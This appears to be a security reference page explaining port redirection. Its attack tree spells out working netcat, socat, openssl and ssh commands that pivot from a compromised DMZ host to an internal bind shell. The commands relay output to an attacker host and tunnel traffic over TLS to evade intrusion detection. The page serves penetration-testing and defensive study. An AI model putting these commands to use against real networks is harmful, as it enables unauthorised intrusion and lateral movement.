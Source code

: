 ## Port redirection

In port redirection, an adversary uses a machine with access to the internal network to pass traffic through a port on the firewall or access control list (ACL). The port in question normally denies traffic, but with redirection a hacker can bypass security measures and open a tunnel for communication.

For example, most organisations have a demilitarised zone (DMZ). Servers that communicate from the DMZ and the internal network may have a trust relationship established. The internal devices may be set up to trust information that is received from a DMZ server, and often also vv. When an adversary can compromise a DMZ server she can initiate a connection to the internal network. There are a lot of ways that port redirection can be used to get around obstacles.

* Leverage network access by compromising one system to attack another.
* Access a service that is being blocked by a firewall.
* Evading an intrusion detection system by sending traffic through an encrypted tunnel.

```text
1 Compromise host in DMZ gaining direct access on port 80/tcp only (AND)
2 Compromise host in internal network by setting a bind shell to listen on port 23 (AND)
3 Redirect
    3.1 One way port redirection with netcat (OR)
        3.1.1 On attack host set up to receive response traffic 
                (nc -lv 3333) (AND)
        3.1.2 Redirect on host in DMZ 
                (nc -lv 80 | nc -t [IP address internal host] 23 | nc [IP address attack host] 3333) (AND)
        3.1.3 Initiate connection to host in DMZ on port 80/tcp (nc [IP address DMZ host] 80) (AND)
        3.1.4 Run commands from window created and receive the command response in the other window.
    3.2 Two way redirection using netcat and named pipes (OR)
        3.2.1 Make pipe on attack host (mkfifo pipe) (AND)
        3.2.2 Redirect on host in DMZ 
                (nc -lvp 80 <pipe | nc -t [IP address internal host] 23 >pipe) (AND)
        3.2.3 Initiate a connection to host in DMZ on port 80/tcp 
                (nc [IP address DMZ host] 80 or telnet [IP address DMZ host] 80) (AND)
        3.2.4 Issue commands and receive command output in the same window
    3.3 Redirect traffic from one port to another on the same host (OR)
        3.3.1 Make pipe on attack host (mkfifo pipe) (AND)
        3.3.2 SSH into host in DMZ if sshd is listening on loopback 
                (nc -lvp 80 <pipe | nc localhost 22 >pipe) (AND)
        3.3.3 Connect 
                (ssh -p 80 [IP address DMZ host])
    3.4 Set up two way redirection using socat (OR)
        3.4.1 (socat TCP-LISTEN:80,fork TCP:[IP address internal host]:23)
    3.5 Evade IDS with socat (OR)
        3.5.1 Generate certificates for each host (dmzhost.pem and internalhost.pem) (AND)
            3.5.1.1 Generate a public/private key pair 
                    (openssl genrsa -out [host].key 1024) (AND)
            3.5.1.2 Self sign the certificate 
                    (openssl req -new -key [host].key -x509 -out [host].crt) (AND)
            3.5.1.3 Generate the PEM certificate by concatenating the key and certificate files 
                    (cat [host].key [host].crt > [host].pem) (AND)
            3.5.1.4 Copy the PEM certificate to the host (AND)
        3.5.2 Set up SSL encrypted tunnel on DMZ host to internal host 
                (socat TCP-LISTEN:80, fork openssl-connect:[IP address internal host]:8080,
                cert[dmzhost].pem,cafile=[internalhost].crt)
        3.5.3 Set up listener on internal host 
                (socat openssl-listen:8080,reuseaddr,
                cert=[internalhost].pem,cafile=[dmzhost].crt,fork TCP:localhost:23)
    3.6 Two way tunnel between attack host and internal host using ssh (OR)
        3.6.1 SSH connection with host in DMZ (AND)
        3.6.2 Setup a listener on attack host on port 3333/tcp 
                to forward traffic it receives to the internal host on port 23, via host in DMZ 
```